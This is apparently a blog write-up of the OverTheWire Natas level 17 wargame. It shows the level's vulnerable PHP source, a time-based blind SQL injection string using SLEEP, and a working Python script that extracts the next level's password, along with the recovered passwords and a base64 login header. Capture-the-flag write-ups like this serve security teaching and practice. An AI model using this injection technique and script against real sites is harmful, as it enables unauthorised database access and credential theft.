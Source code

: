 ```yaml
---
layout: post
title: "Natas Level17 - Level18"
date: 2015-10-02 21:06:52
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas 17 takes us back to Natas 15:

![Natas 17 search](/assets/img/screenshots/Natas_level17-1.png)

Lets look at the source to see if we can find whats changed:

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas17", "pass": "<censored>" };</script></head>
<body>
<h1>natas17</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Hmm... looks like they completely removed the response. I submitted the user name "natas18" (since I assume it will exist) and "asfdgshnt" since I do not think it will exist. I captured both requests and sent it to the Burp Comparer to see if we can find any diffrences:

![Natas 17 burp comparer](/assets/img/screenshots/Natas_level17-2.png)

As expected, the result is exactly the same. Since this is a blind sql injection with absolutly no output, the only thing I can think of is a time base attack. If a reponse takes longer when the password exists, we should be able to brute force it. With no output, this might be difficult. So I rebuild a database on my local machine with the following data:

    +----------+----------------------------------+
    | username | password                         |
    +----------+----------------------------------+
    | natas16  | WaIHEacj63wnNIBROHeqi3p9t0m5nhmh |
    +----------+----------------------------------+

Next I try the following query:

```sql
Select * from users where username = "natas16"  AND LEFT(password, 1) COLLATE latin1_general_cs = "W" AND (SELECT SLEEP(5)) AND "1"="1";
```

And I get the following output:

![Natas 17 db output](/assets/img/screenshots/Natas_level17-3.png)

Here is the string that I will need to submit:

```sql
natas18"  AND LEFT(password, 1) COLLATE latin1_general_cs = "a" AND  (SELECT SLEEP(20)) AND "1"="1
```

I capture a request in Burp and send it to the intruder but since this is a time base attack, I need to change the Number of threads to 1:

![Natas 17 Burp threads](/assets/img/screenshots/Natas_level17-4.png)

After running it I look at the response time and find the first letter of the password is x:

![Natas 17 Burp result](/assets/img/screenshots/Natas_level17-1.png)

Now lets script it!

```python
import urllib
import urllib2
import time

url = 'http://natas17.natas.labs.overthewire.org/index.php'
authorization = 'Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=='

Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
'6','7','8','9']

password = ""

#loop through possible length of password
for i in range(1, 33):
    print "%d out of 32" % (i)
    #loop through possible chars
    for j in range(0,len(Chars)):
        sqli = 'natas18"  AND LEFT(password, %d) COLLATE latin1_general_cs = "%s" AND  (SELECT SLEEP(10)) AND "1"="1' % (i,password + Chars[j])
        values = {'username' : sqli}
        data = urllib.urlencode(values)
        req = urllib2.Request(url, data)
        req.add_header('Authorization', authorization)
        start = time.time()
        response = urllib2.urlopen(req)
        the_page = response.read()
        end = time.time()
        #print the_page
        duration = end-start
        if duration > 10:
            password+=Chars[j]
            print password
            break
```

The first time I run it I get a weird issue:

    1 out of 32
    x
    2 out of 32
    xv
    3 out of 32
    xvK
    4 out of 32
    xvKI
    5 out of 32
    xvKIq
    6 out of 32
    xvKIqD
    ....
    28 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsD
    29 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDa
    30 out of 32
    31 out of 32
    32 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDaE

But when I ran it again and I got:

    1 out of 32
    x
    2 out of 32
    xv
    3 out of 32
    xvK
    4 out of 32
    xvKI
    5 out of 32
    xvKIq
    6 out of 32
    xvKIqD
    ...
    27 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCs
    28 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsD
    29 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
    30 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
    31 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
    32 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

